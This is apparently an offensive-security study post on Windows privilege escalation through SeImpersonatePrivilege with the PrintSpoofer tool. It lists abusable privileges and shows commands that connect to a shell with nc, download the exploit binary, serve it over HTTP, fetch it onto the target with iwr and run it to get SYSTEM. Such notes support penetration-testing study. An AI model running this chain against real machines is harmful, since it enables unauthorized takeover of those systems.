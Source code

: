 ```yaml
---
layout: post
title: Windows Privesc PrintSpoofer
titledate: 09/16/23
tags: ["infosec","offsec", "privesc", "powershell", "exploit"]
---
```


#### privilege escalation exploits

1. application - vulnerabilities that are installed and execute with administrative privileges can elevate our privs if they can be exploited

2. windows kernel - vulnerabilities can be leveraged for priv esc

3. windows privileges - non priv users that have certain privileges like SeImpersonatePrivilege may be able to leverage them to perform priv esc. this priv by default gets assigned to members of these groups 
    - Administrators
    - LOCAL SERVICE
    - NETWORK SERVICE
    - SERVICE

some other privileges that can be leveraged to perform priv esc include 
- SeBackupPrivilege
- SeAssignPrimaryToken
- SeLoadDriver
- SeDebug

let's connect to the target

    $ nc 192.168.1.1 4444

check our assigned privs

    C:\> whoami /priv

bc we have the SeImpersonatePrivilege priv assigned we can attempt to utilize a PrintSpooler vulnerability

    $ wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

so we retrieve it and host it 

    $ python3 -m http.server 80

then download it on our target

    PS > iwr -uri http://192.168.1.1/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe

and finally execute it

    PS > .\PrintSpoofer64.exe -i -c powershell.exe

if the exploit is successful we should hav system privs
